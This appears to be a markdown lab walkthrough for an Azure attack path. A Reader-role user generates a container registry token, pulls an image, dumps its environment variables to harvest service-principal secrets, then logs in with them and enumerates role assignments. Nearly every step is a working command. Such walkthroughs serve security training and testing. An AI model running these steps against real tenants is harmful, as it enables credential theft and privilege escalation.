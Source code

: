 - Reader permissions can pull container images
	- Authenticate as Reader
		- `az login -u readeruser@<DOMAIN> -p myPassword123`
	- List container registries - note the name
		- `az acr list -o table`
	- Generate a Docker login and connect to the registry
		- `acr=ACR_NAME`
		- `loginserver=$(az acr login -n $acr --expose-token --query loginServer -o tsv)`
		- `accesstoken=$(az acr login -n $acr --expose-token --query accessToken -o tsv)`
		- `docker login $loginserver -u 00000000-0000-0000-0000-000000000000 -p $accesstoken`
	- List images in the container registry
		- `az acr repository list -n $acr`
	- Enumerate versions by listing tags for an image
		- `az acr repository show-tags -n $acr --repository nodeapp-web`
	- Note registry credentials in session
		- `echo $loginserver`
		- `echo $accesstoken`
	- Open a PowerShell console as Administrator and set variables (if necessary based on Windows version)
		- `$loginserver="<LOGIN_SERVER>"`
		- `$accesstoken="<ACCESS_TOKEN>"`
	- Login to Docker from PowerShell
		- ` docker login $loginserver -u 00000000-0000-0000-0000-000000000000 -p $accesstoken`
	- Pull the image
		- `docker pull $loginserver/nodeapp-web:v1`
	- Examine the image for sensitive information (list env vars)
		- `docker container run --rm $loginserver/nodeapp-web:v1 env`
	- Login with found credentials via Azure CLI
		- `az login --service-principal --username APP_ID --password SECRET_KEY --tenant TENANT_ID`
	- Check role assignment and scope
		- `az role assignment list --assignee APP_ID --include-groups --include-inherited --query '[].{username:principalName, role:roleDefinitionName, usertype:principalType, scope:scope}'`